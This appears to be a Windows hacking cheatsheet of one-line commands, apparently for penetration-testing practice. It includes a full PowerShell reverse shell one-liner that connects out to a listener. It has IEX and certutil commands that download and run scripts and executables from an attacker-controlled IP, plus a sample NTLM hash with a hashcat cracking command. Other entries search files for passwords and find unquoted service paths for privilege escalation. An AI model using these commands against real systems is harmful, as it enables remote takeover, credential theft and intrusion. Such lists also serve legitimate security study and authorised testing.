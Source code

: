 # WINDOWS HACKING CHEATSHEET

### Windows spawn cmd and execute command
`cmd.exe /c echo "hello world"`

### Windows download from web
`IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')`

### Use certutil to download from web
`certutil.exe -urlcache -split -f "http://10.9.3.23/Advanced.exe" Advanced.exe`

## Windows Powershell download from web
`powershell "IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')"`

## Powershell Reverse Shell One Liner
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.25.31",7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Mount NFS v3
`mount -t nfs -o vers=3 $ip:/dir /mnt/dir`

## Download via windows CMD
`powershell -c (new-object System.Net.WebClient).DownloadFile('http://192.168.25.31/privesc/accesschk.exe','C:\Users\GitService\Desktop\accesschk.exe')`

## Show Patches
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

## Use cached creds Windows
`runas /u:Administrator cmd.exe /c findstr /si *.txt > C:\Users\offsec\Desktop\text.txt`

## Cracking Windows Password Hash
_Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::_
_USERNAME:SID:LM(BLANK=aad3b435b51404eeaad3b435b51404ee):NTLM:::_

`hashcat -m 1000 -a 0 -o plain-pass.txt --remove file-with-hash.hash /usr/share/wordlists/rockyou.txt`

## Find file containing keyword
`findstr /si password *.txt | *.xml | *.xls`

## Show Drives
`wmic logicaldisk get caption,Description,providername`

## Find specific directory
`dir <Folder Name> /AD /s`

## Find specific file name on system
`dir /a /s /b c:\*flag2.txt`

`dir /b/s *.txt`

`where /r c:\Windows *.exe *.dll`

## Search long output
`command |more`

## Find Unquoted service paths
`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`

## Allow execution of scripts in powershell
`Set-ExecutionPolicy unrestricted`

## Show execution policy
`Get-ExecutionPolicy -List | Format-table -AutoSize`

## Show User Privlages
`whoami /priv`

## Show a Users Group
`whoami /groups`

## List users in a group
`net localgroup administrtor`

## Show info on specified user
`net user administrator`

## Show Routing table
`route print`